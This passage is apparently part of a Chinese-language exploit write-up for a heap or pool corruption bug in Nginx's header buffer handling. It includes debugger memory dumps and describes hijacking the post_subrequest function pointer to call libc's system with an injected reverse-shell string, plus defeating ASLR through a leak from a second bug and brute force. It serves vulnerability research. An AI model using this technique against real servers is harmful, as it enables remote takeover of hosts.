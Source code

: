   
另一个问题：客户端标头缓冲区中读取的旧内容将被复制到大缓冲区，其中包含有效的请求行（我们不希望这些 ASCII 字母破坏池和请求对象）。在r->state == 0.ngx_http_alloc_large_header_buffer由r->state解析函数设置的情况下，不会发生这种情况：如果 Nginx 在解析字段（例如标头行）时中途用尽字节，则状态将保留，并且至少尚未完全解析的数据必须复制到新的更大的缓冲区。  
  
```
if (r->state == 0) {        /*         * r->state == 0 means that a header line was parsed successfully         * and we do not need to copy incomplete header line and         * to relocate the parser header pointers         */        r->header_in = b;        return NGX_OK; // this way we can avoid copying useless data to the big buffer    }
```  
  
  
结果是我们从重叠池中控制了 0x1000 字节。因此，我们间接控制了池中分配的请求对象。  
  
```
gef➤ tele pool0x00007abeb6e20000│+0x0000: 0x0000000000001337   ← $rdi0x00007abeb6e20008│+0x0008: 0x00000000000013380x00007abeb6e20010│+0x0010: "nice!\r\n\r\n"0x00007abeb6e20018│+0x0018: 0x000000000000000a ("\n"?)0x00007abeb6e20020│+0x0020: 0x0000000000000fb00x00007abeb6e20028│+0x0028: 0x00007abeb6e20000  → 0x00000000000013370x00007abeb6e20030│+0x0030: 0x00000000000000000x00007abeb6e20038│+0x0038: 0x00000000000000000x00007abeb6e20040│+0x0040: 0x00000000000000000x00007abeb6e20048│+0x0048: 0x00007abeb6e1e060  → 0x0000000000000004gef➤ 0x00007abeb6e20050│+0x0050: 0x00000000000000000x00007abeb6e20058│+0x0058: 0x00000000000000010x00007abeb6e20060│+0x0060: 0x00000000000000000x00007abeb6e20068│+0x0068: 0x0000000050545448 ("HTTP"?)0x00007abeb6e20070│+0x0070: 0x00007abeb6e7f600 → 0x00007abeb6e20050  → 0x00000000000000000x00007abeb6e20078│+0x0078: 0x00007abeb6e20b20  → 0x00000000000000000x00007abeb6e20080│+0x0080: 0x00007abeb6e4dc88 → 0x00007abeb6e4e0d8 → 0x00007abeb6e4e378  → 0x00007abeb6e60470  → 0x00007abeb6e4fe38 → 0x00000000000000000x00007abeb6e20088│+0x0088: 0x00007abeb6e60190  → 0x00007abeb6e60470  → 0x00007abeb6e4fe38 → 0x00000000000000000x00007abeb6e20090│+0x0090: 0x00007abeb6e60300  → 0x00007abeb6e60518  → 0x00000000000000000x00007abeb6e20098│+0x0098: 0x00005c095e67275a  → <ngx_http_block_reading+0000> endbr64 gef➤ p *pool$4 = {  d = {    last = 0x1337 <error: Cannot access memory at address 0x1337>,    end = 0x1338 <error: Cannot access memory at address 0x1338>,    next = 0xd0a0d216563696e,    failed = 0xa  },  max = 0xfb0,  current = 0x7abeb6e20000,  chain = 0x0,  large = 0x0,  cleanup = 0x0,  log = 0x7abeb6e1e060}
```  
  
  
我们应该写些什么来劫持控制流？无论我们注入什么，都不能是有效的标头，因此 Nginx 将使用 来完成请求ngx_http_finalize_request，我注意到 (controlled) 中有一个r被调用的函数指针。漏洞利用必须修复在调用此处理程序之前访问的所有损坏的指针。  
  
```
if (r != r->main && r->post_subrequest) {        rc = r->post_subrequest->handler(r, r->post_subrequest->data, rc); // XXXR3: inject here    }
```  
  
  
我们在 libc 中注入了的地址system和指向反向 shell 字符串的指针，该字符串被注入到损坏的池中。 system('/bin/sh\x00')会立即返回，因为 Nginx 关闭了stdin。  
  
我们如何泄露堆和 libc 的地址？我的一个观察是，崩溃工作进程不会重新随机化堆和 libc 地址，因此理论上，我们可以暴力破解地址。我意识到，有时我们可以使用相同的漏洞（如果我们使用 进行编译）泄露易受攻击的池中池分配对象的地址，而不是暴力破解O3。但这并不可靠。另一个想法是，我们仍然可以链接 CPV11 漏洞，以对易受攻击的池地址做出很好的猜测。然后我们也可以对 libc 做出很好的猜测。  
  
更稳定的漏洞利用  
  
CPV11 泄露的地址指向堆地址。利用该地址，我们可以猜测堆基址（例如0x000075feb7000000）、池地址和 libc 地址。我通过多次重启 Nginx 测试了偏移量，这将使地址随机化。然而，在实践中，我们也可以明智地暴力破解地址，因为崩溃的工作进程不会重新随机化，而且我们一开始就有堆泄漏。  
  
```
```